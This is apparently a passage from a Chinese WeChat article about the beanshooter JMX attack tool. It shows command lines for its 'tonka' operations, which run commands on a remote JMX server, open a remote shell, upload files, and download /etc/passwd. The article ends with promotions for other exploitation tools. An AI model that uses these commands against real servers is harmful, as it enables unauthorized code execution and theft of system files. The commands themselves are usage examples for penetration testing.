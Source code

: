 execarray操作与exec动作非常相似，但它不是期望一个字符串作为参数并在空格处分割该字符串以构建命令数组，而是允许指定多个参数，这些参数将直接作为ProcessBuilder类的命令数组使用：  
```
java -jar beanshooter.jar tonka execarray 172.17.0.2 9010 -- ash -c 'echo $HOME'
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PJcQz9vmUicl19mYyKWyP8SoVIrb4oNJfHJquo59z20gU6zGmUHVBIy9qxocCibQMtGM23GNG5iaUA8RwxZry3QAA/640?wx_fmt=png&from=appmsg "")  
##### Tonka Shell  
  
shell操作会启动一个命令行shell，您可以在其中指定将在JMX服务器上执行的命令，该shell并不是完全交互式的，只是对Java的Runtime.exec方法的一个封装，然而它实现了对环境变量和当前工作目录的基本支持：  
```
java -jar beanshooter.jar tonka shell 172.17.0.2 9010
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PJcQz9vmUicl19mYyKWyP8SoVIrb4oNJfD66JukQ2tJX89HnJNCYx6nLMpWIk8yk6mN1nfk7JlU87sibSf6SMricw/640?wx_fmt=png&from=appmsg "")  
  
上面的示例演示了如何使用!env关键字设置环境变量，除了这个关键字，还有其他几个可用的关键字：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PJcQz9vmUicl19mYyKWyP8SoVIrb4oNJfATK6WCFx1PVsdzhlhq4AfFOyuW9IhNVbqxRtAiatSSLRLToteZYqjLg/640?wx_fmt=png&from=appmsg "")  
##### Tonka Upload  
  
upload操作可用于将文件上传到JMX服务器  
```
java -jar beanshooter.jar tonka upload 172.17.0.2 9010 file.dat /tmp
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PJcQz9vmUicl19mYyKWyP8SoVIrb4oNJfD0pkY9VRWw6yfasyx5dYQr5WPvXF7TfVTIiaT2eV5V9v4OOb5uAVgew/640?wx_fmt=png&from=appmsg "")  
##### Tonka Download  
  
download操作可用于从JMX服务器下载文件：  
```
java -jar beanshooter.jar tonka download 172.17.0.2 9010 /etc/passwd
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PJcQz9vmUicl19mYyKWyP8SoVIrb4oNJfffIMWHFQY5bnXSICpOL5xGysSjneeLz1IiaMFN7qYCnz2h5j93icyL6A/640?wx_fmt=png&from=appmsg "")  
  
**下载地址**  
  
**点击下方名片进入公众号**  
  
**回复关键字【**  
**241128****】获取**  
**下载链接**  
  
****  
**·推 荐 阅 读·**  
  
# 最新后渗透免杀工具  
# 【护网必备】高危漏洞综合利用工具  
#    【护网必备】Shiro反序列化漏洞综合利用工具增强版  
# 【护网必备】外网打点必备-WeblogicTool  
# 【护网必备】最新Struts2全版本漏洞检测工具  
# Nacos漏洞综合利用工具  
# 重点OA系统漏洞利用综合工具箱    